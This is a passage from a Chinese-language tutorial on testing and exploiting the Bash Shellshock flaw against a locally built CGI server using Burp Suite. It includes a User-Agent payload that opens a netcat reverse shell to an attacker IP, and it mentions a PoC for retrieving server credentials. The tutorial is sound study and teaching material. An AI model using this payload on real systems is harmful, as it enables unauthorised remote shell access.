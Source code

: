 测试截图如下：

![enter image description here](http://drops.javaweb.org/uploads/images/e15558e8872bfbd4645c37c93dae77bace668156.jpg)

在http协议中构造`Referer`、`Cookie`、`User-Agent`字段命令，使用Burpsuit，发送到存在Bash漏洞的服务器，会返回3个Vul字符，说明3个字段传递的参数都被服务器后端脚本解析处理，测试结果如下：

![enter image description here](http://drops.javaweb.org/uploads/images/b5c55d00bf3427ded1bb12cee38145ff3ef9511e.jpg)

构造其他Poc，获取服务器用户名和密码。

![enter image description here](http://drops.javaweb.org/uploads/images/18c34d3d94268b11e45207228f2b4d35300b80f4.jpg)

0x04 漏洞利用测试
-----------

* * *

在本地搭建有Bash漏洞的服务器，利用浏览器访问CGI页面，显示正常访问。

![enter image description here](http://drops.javaweb.org/uploads/images/e1704dc7d8524023f989367e6fac2546cd8a5342.jpg)

用Burpsuit进行拦截，初始时`intercept is off`。

![enter image description here](http://drops.javaweb.org/uploads/images/7cc9ad5e0225c8588d0557517fff2f26a9dca46b.jpg)

用Burpsuit进行拦截，打开`intercept is on`。

![enter image description here](http://drops.javaweb.org/uploads/images/d09230cf3e20152000473666474a9e369082e615.jpg)

修改http协议中的User-Agent字段为

```
() { :; }; /bin/bash -c "nc 192.168.175.142 4444 -e /bin/bash -i"

```

![enter image description here](http://drops.javaweb.org/uploads/images/35f39e73ce7112a604614787aac8fc9c0bc0ce11.jpg)

发送http请求后，nc反弹，可以查看用户名、目录、系统版本等信息。

![enter image description here](http://drops.javaweb.org/uploads/images/1413ef177e9fdfd323f51900b84a7939ac88d394.jpg)

0x05 参考文献
---------

* * *

> 1) http://www.freebuf.com/vuls/44994.html
> 
> 2) http://www.freebuf.com/news/44768.html
> 
> 3) http://www.freebuf.com/news/45436.html
> 
> 4) http://blog.csdn.net/u011721501/article/details/39558303
> 
> 5) http://www.srxh1314.com/bash-cgi-bin.html
> 
> 6) http://www.linuxidc.com/Linux/2014-09/107250.htm
> 
> 7) http://www.freebuf.com/tools/45311.html
> 
> 8) http://www.timlaytoncybersecurity.com/2014/09/30/shellshock-bash-code-injection-vulnerability- overview-info/
> 
> 9) http://blog.sucuri.net/2014/09/bash-vulnerability-shell-shock-thousands-of-cpanel-sites-are-high- risk.html
> 